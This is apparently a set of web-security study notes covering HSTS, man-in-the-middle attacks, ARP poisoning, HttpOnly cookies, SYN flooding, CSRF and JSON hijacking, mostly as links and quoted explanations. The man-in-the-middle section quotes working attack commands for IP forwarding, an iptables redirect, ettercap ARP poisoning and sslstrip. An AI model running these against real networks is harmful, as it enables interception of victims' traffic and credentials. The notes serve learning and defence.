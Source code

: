 * http://blog.codeclimate.com/blog/2013/03/27/rails-insecure-defaults/

__HSTS header__
https://gist.github.com/bartekn/6924685

`Strict-Transport-Security: max-age=31536000`

> HTTP Strict Transport Security (HSTS) is an opt-in security enhancement that is specified by a web application through the use of a special response header. Once a supported browser receives this header that browser will prevent any communications from being sent over HTTP to the specified domain and will instead send all communications over HTTPS. It also prevents HTTPS click through prompts on browsers.

### MITM attacks

> First I turned IP forwarding on so that my computer can act as a router and route traffic to other destinations: 
attacker@linux:/#: echo 1 > /proc/sys/net/ipv4/ip_forward 
I setup setup my firewall tables to NAT all incoming TCP traffic received over port 80 to be redirected out port 10000:
attacker@linux:/#: iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000 
Then, I used ettercap to perform ARP poisoning on the victim's router so that all traffic being sent to my victim will first be sent to me: 
attacker@linux:/#: ettercap -Tq -i eth0 -M arp:remote /victim's IP/ /router's IP/ 
I used the python program SSLstrip that Moxie Marlinspike created to make the HTTPS to HTTP substitutions and keep track of the changes make: 
attacker@linux:/#: python sslstrip.py -a

__ARP__

http://www.watchguard.com/infocenter/editorial/135324.asp

1. An ARP Request. Computer A asks the network, "Who has this IP address?"
2. An ARP Reply. Computer B tells Computer A, "I have that IP. My MAC address is [whatever it is]."
3. A Reverse ARP Request (RARP). Same concept as ARP Request, but Computer A asks, "Who has this MAC address?"
4. A RARP Reply. Computer B tells Computer A, "I have that MAC. My IP address is [whatever it is]"

ARP poisoning
* The hacker begins by sending a malicious ARP "reply" (for which there was no previous request) to your router. ( router thinks the hacker's computer is your computer)
* Next, the hacker sends a malicious ARP reply to your computer, associating his MAC Address with 192.168.0.1.  (your machine thinks the hacker's computer is your router)

Aircrack tool: 
* http://www.aircrack-ng.org/
* http://www.irongeek.com/i.php?page=videos/bsideslasvegas2013/2-2-6-the-slings-and-arrows-of-open-source-security-tod-beardsley-and-mister-x

__HttpOnly Cookie__

https://www.owasp.org/index.php/HttpOnly

Attempts to avoid XSS to access cookie even if a user is exposed to the XSS.

### DDOS

__SYN Flooding__ - http://tools.ietf.org/html/rfc4987 

### CSRF 

http://haacked.com/archive/2009/04/02/anatomy-of-csrf-attack.aspx/
> In general, the standard approach to mitigating CSRF attacks is to render a “canary” in the form (typically a hidden input) that the attacker couldn’t know or compute. When the form is submitted, the server validates that the submitted canary is correct. Now this assumes that the browser is trusted since the point of the attack is to get the general public to misuse their own browser’s authority.
It turns out this is mostly a reasonable assumption since browsers do not allow using XmlHttp to make a cross-domain GET request. This makes it difficult for the attacker to obtain the canary using the current user’s credentials. 

__JSON response__
http://haacked.com/archive/2009/06/25/json-hijacking.aspx/
> The bad guy has tricked the victim’s browser to issue a request for the JSON containing sensitive information using the browser’s credentials (aka the auth cookie). This loads the JSON array as executable JavaScript and now the bad guy has access to this data.
> Well the bad guy is changing the prototype for Object using the special __defineSetter__ method which allows overriding what happens when a property setter is being called.

